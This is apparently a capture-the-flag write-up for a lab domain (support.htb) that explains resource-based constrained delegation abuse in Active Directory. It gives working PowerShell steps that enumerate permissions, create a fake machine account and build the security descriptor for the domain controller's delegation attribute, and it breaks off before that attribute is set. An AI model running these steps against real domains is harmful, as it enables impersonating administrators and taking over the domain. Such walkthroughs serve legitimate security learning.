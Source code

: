 0xdf provided a Gist with the attack path: 
https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff#file-rbcd_demo-ps1
Based on work from here: https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html

I spent a long time reviewing the second resource and the links embedded in it. I will try to provide a quick summary of why this attack works.

First of all, what is this attack?

AD and Kerberos contains a feature known as delegation. This allows authentication to be "delegated" in an unconstrained fashion (no limits to who or what can authenticate this way) or a "constrained" fashion (limit what Service Principals can authenticate to what objects). You could have say a web service authenticate a user. Let's say that user needs access to a MSSQL database. Kerberos will handle grabbing a TGS on behalf of that user to perform authentication (see where this is going). Kerberos has extensions called S4U2Self and S4U2Proxy to handle this "protocol transition". This can be abused to "impersonate" another user.

It turns out that your user (or target user) does not need this explicit permission, TrustedToAuthForDelegation. That will still work, but what you really need is an object that you control and you need to configure the DC object with an SDDL for the 'msds-allowedtoactonbehalfofotheridentity' that corresponds with the SID of your object. So with GenericAll permissions and a default ms-DS-MachineAccountQuota you can create a computer account and set the value of the target attribute on the DC. With that permission, the computer account can impersonate an administrator by requesting a TGS from Kerberos that is for the administrator to a target service.

Procedure:
```
$TargetComputer = "dc.support.htb"
```
We need to verify that we at least have "Generic Write" on the target". We know that our permissions are inherited from the group called "shared support accounts"
```
$AttackerSID = Get-DomainGroup "shared support accounts" -Properties objectsid | Select -Expand objectsid
```
```
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}
```
```
ConvertFrom-SID $ACE.SecurityIdentifier
```
![[Pasted image 20250606120524.png]]
that works

Using PowerMad, let's create the fake computer
```
New-MachineAccount -MachineAccount microwavecoolpc -Password $(ConvertTo-SecureString 'microwave2025!' -AsPlainText -Force)
```
Here we are building the raw security descriptor DACL entry to attach to the DC - it needs information from our fake computer object so we can impersonate
```
$ComputerSid = Get-DomainComputer microwavecoolpc -Properties objectsid | Select -Expand objectsid
```
We need a binary representation of this SDDL to assign it to the attribute msds-allowedtoactonbehalfofotheridentity on the DC
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
```
```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```
```
$SD.GetBinaryForm($SDBytes, 0)
```
this is where we set the binary SDDL on the attribute of the DC
```
```